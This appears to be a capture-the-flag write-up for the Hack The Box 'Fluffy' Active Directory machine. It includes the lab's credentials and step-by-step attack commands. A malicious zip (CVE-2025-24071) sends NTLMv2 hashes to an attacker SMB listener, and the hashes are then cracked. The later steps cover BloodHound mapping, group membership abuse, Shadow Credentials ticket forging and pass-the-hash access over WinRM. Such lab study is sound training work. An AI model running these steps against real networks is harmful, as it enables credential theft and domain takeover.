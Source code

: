 
# Executive Summary – HTB Fluffy

The HTB Fluffy machine is an "Easy" rated Windows Active Directory environment designed to simulate a real-world enterprise network. 

This engagement commenced with initial access via valid credentials for the user `j.fleischman`, provided in a compromised state. Subsequent enumeration and exploitation revealed several critical vulnerabilities:

## Successful Attacks / Compromise
- **CVE-2025-24071**: Vulnerability in Simple DNS Plus allowing NTLMv2 hash extraction.
- **Shadow Credentials Misuse**: Exploitation of GenericWrite permissions to escalate privileges.
- **ESC16 (UPN Spoofing)**: Abuse of Active Directory Certificate Services to forge certificates for administrative access.

> By chaining these vulnerabilities, full domain compromise was achieved, demonstrating the importance of robust credential management and configuration in Active Directory environments.

## Other Findings / Unsuccessful Attacks
- Listing domain users via `rpcclient enumdomusers`, revealing accounts like `Administrator`, `Guest`, `krbtgt`, service accounts (`ca_svc`, `ldap_svc`, `winrm_svc`), and user accounts (`j.coffey`, `p.agila`).  
- Gathering user information via `rpcclient queryuser j.fleischman` (password last set time, logon details, account privileges).  
- Collecting server information via `rpcclient srvinfo` (platform, OS version).  
- Kerberoasting attempted using `GetUserSPNs.py` with valid credentials. Extracted TGS hashes were tested with `Hashcat -m 13100` using wordlists (`rockyou.txt`, `johnlist`, `10k-most-common.txt`) without success.

## Key Takeaways
- Full domain compromise is possible via chained AD vulnerabilities.  
- Valid user credentials provide substantial access for enumeration.  
- Kerberoasting is a high-value attack vector, but strong service account passwords mitigate risk.  
- Detailed AD enumeration (users, groups, privileges) is critical before attempting privilege escalation.


# Detailed reproduction steps for this CVE-2025-24071 & Shadow Credentials Misuse

`sudo nmap -sC -sV 10.129.165.40`
NMAP is tool ised for port scanning, service dction and network disocver. 
- `-sC` runs nmap defaul scripts
- `sV` tries to identify the exact software running. 


<img src="images/nmap_scan.png" alt="nmap scan">


Next enumrate SMB share
`smbmap -H 10.129.165.40 -u "j.fleischman -p J0elTHEM4n1990!"`
 <img src="images/smbmap.png" class="report-images" alt="SMBMAP">

Form this we wee have read and write to IT share so lets see connect to that share and see if there is anything in it.

`smbclient //10.129.165.40/IT -U "j.fleischman"`


smb: \> ls
  .                                   D        0  Fri Sep  5 20:08:31 2025
  ..                                  D        0  Fri Sep  5 20:08:31 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 16:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 16:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 16:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 16:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 15:31:07 2025

Download UPgrade_Notice.pdf and you will see a list of vulnerbites that need patching. 
![!PDF on the SMB](images/notice.png)

To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 `exploit.py -i 10.10.16.40 -s shared -f evil`
 3. Start listener for hash capture:
   `sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support`
   3. Upload payload to target IT share.
      `put evil.zip`

4. You should see username + hash on listner.

5. Crack the with rockyou.txt: 
  `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

6. Create a BloodHound file and upload to bloodhound review.
      `sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP>`
7. `BloodHound`
8. Should see BloodHound open in new tab in firefox
9. Upload the ladp file we created to upload 
10. Search for User we enumerated
11. Examine relationships and you will see this 


![BloodHound Scan](images/Bloodhound.png)


12. If examine WINRM_SVC in BloddHound, it is member of remote services add can remote login. If we try to use EVil-winrm for user p.agila or J.FLEISCHMAN will see users dint have permisison. 

Observations form BloodHound

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Start a virtual environment in your folder and install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`


---

### Add User to Service Accounts

`net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"`


### Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

`sudo rdate -n <TARGET_IP>`



`faketime <DATE_TIME> python3 gettgtpkinit.py \ -cert-pem key_cert.pem \ -key-pem key_priv.pem \ fluffy.htb/<SERVICE_ACCOUNT> \  <SERVICE_ACCOUNT>.ccache`


### Set the Kerberos ticket environment variable:

> Why we do this: 

 > When you log in with a valid ticket, it gets stored in /tmp/krb5cc_<UID>.

> All Kerberos-enabled tools (smbclient, psexec.py, ldapsearch, etc.) will look in that default location to authenticate.

> But in a pentest, you often manually extract or forge tickets (e.g., with impacket, Mimikatz, or AD CS attacks). Those tickets don’t automatically go to /tmp/krb5cc_<UID>. They’re saved in a .ccache file.

> So, to make Kerberos-aware tools use your forged/extracted ticket, you tell them where it is:

`export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache`


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

### Retrieve NT Hash

`faketime <DATE_TIME> python3 getnthash.py \ -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>`

### Access Service Account
`evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>`



